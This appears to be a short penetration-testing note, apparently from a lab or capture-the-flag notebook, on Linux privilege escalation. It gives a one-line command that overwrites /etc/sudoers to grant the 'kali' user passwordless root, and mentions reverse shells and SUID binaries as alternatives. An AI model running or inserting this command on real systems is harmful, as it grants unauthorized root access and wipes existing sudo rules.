 ```yaml
---
id: user_to_sudo
aliases: []
tags:
  - privilege_esclation
  - sudo
---
```


`echo 'kali ALL=(root) NOPASSWD: ALL' > /etc/sudoers`

#The above injects an entry into the /etc/sudoers file that allows the 'kali' 
#user to use sudo without a password for all commands
#NOTE: we could have also used a reverse shell, this would work the same!
#OR: Even more creative, you could've used chmod to changes the permissions
#on a binary to have SUID permissions, and PE that way
